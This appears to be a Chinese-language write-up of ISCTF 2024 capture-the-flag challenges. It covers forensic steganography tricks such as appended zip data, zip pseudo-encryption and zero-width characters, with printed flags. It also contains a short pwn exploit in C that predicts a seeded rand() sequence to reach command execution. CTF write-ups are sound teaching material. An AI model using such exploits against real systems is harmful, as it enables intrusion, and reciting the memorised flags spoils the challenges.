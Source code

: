 ## MISC
### 小蓝鲨的签到02
下载附件用`010EditorPortable`打开，文件末尾就是flag，`ISCTF{blueshark!_@#2024$%^&*}`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109122512.png)  
### 数字迷雾：在像素中寻找线索
用`随波逐流`打开，看到类似flag的东西，想着提交试一下，就成功了  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109135749.png)  
### 少女的秘密花园@未解出
用`010EditorPortable`打开图片发现结束标志`FF D9`后还有内容, `50 4B 03 04`是压缩包的标志，把结束符后的单独保存为一个文件重命名为`flag.zip`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109174907.png)  
新文件没有加密解压得到`base_misc`文件  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109175229.png)  
再用`010EditorPortable`打开发现这还是个压缩包,所以重命名为`base_misc.zip`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109175336.png)  
### 秘密
首先是一个伪加密，把`14 00 09 00`改为`14 00 00 00`    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111183750.png)    
成功解压后使用`010EditorPortable`打开图片发现文件结束标志`FF D9`后还有内容,搜索`9E 97 BA 2A`了解到`our secret隐写`     
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111182840.png)     
尝试解密发现需要密钥，在图片中搜索`key`未找到内容,搜索`SICTF`找到`ISCTF2024`字符串猜测是密钥      
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184345.png)    
使用`our secret`解密得到`这里没有秘密.txt`文件     
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184443.png)   
明显看出文件有特殊字符    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184606.png)    
使用vsc打开文件，看到`U+202C`字符，搜索了解到`零宽度字符隐写`    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184659.png)   
使用[](https://www.mzy0.com/ctftools/zerowidth1/)在线网站进行解密,得到flag`ISCTF{Nic3_t0_m33t_you}`    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184820.png)     
## pwn
### Netcat
输入`nc 27.25.151.12 28810`即可  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109143718.png) 
### ez_game  
反编译得到如下，题目会先要求我们输入用户名，然后会以`1`为种子随机出2万个数让我们猜，因为种子是确定的所以我们可以预知这2万个数，猜对全部数字后就可以执行任意命令  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241110215841.png)
exp如下:  
```c
#include <stdio.h>
#include <stdlib.h>
int main(){
    int seed=1;
    puts("Shone");
    srand(seed);
    for(int i = 0; i <= 20000; ++i){
    int a=rand()%7+1;
    printf("%d\n",a);
    }
    puts("ls");
```